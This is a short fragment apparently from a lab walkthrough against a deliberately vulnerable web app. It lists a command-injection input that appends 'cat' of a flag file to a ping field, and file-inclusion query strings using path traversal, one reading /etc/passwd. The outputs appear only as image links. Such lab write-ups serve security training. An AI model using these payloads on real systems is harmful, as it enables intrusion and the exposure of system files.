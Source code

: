 
input

```bash
127.0.0.1 > /dev/null; cat ../../hackable/flags/fi.php
```

output

![alt text](images/photo_7.jpg)

input

```html
?page=../../hackable/flags/fi.php
```

output

![alt text](images/photo_8.jpg)

input

```html
?page=../../../../../etc/passwd
```

output

![alt text](images/photo_9.jpg)
